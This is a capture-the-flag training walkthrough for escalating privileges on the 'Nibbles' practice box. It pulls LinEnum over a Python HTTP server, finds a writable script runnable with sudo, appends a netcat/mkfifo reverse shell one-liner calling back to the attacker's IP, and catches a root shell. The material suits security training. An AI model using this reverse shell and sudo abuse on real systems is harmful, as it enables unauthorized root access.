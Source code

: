Nibbles - Privilege Escalation

Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the personal.zip file and see a file called monitor.sh.
Nibbles - Privilege Escalation

nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 

The shell script monitor.sh is a monitoring script, and it is owned by our nibbler user and writeable.
Nibbles - Privilege Escalation

nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>

Let us put this aside for now and pull in LinEnum.sh to perform some automated privilege escalation checks. First, download the script to your local attack VM or the Pwnbox and then start a Python HTTP server using the command sudo python3 -m http.server 8080.
Nibbles - Privilege Escalation

kappajester83@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -

Back on the target type wget http://<your ip>:8080/LinEnum.sh to download the script. If successful, we will see a 200 success response on our Python HTTP server. Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it. We see a ton of interesting output but what immediately catches the eye are sudo privileges.
Nibbles - Privilege Escalation

[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh

The nibbler user can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with sudo we should get a reverse shell back as the root user. Let us edit the monitor.sh file to append a reverse shell one-liner.
Nibbles - Privilege Escalation

nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh

If we cat the monitor.sh file, we will see the contents appended to the end. It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption. Execute the script with sudo:
Nibbles - Privilege Escalation

 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 

Finally, catch the root shell on our waiting nc listener.
Nibbles - Privilege Escalation

kappajester83@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)

From here, we can grab the root.txt flag. Finally, we have now solved our first box on HTB. Try to replicate all of the steps on your own. Try various tools to achieve the same effect. We can use many different tools for the various steps required to solve this box. This walkthrough shows one possible method. Make sure to take detailed notes to practice that vital skillset.


Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!

+ 1 Escalate privileges and submit the root.txt flag. 



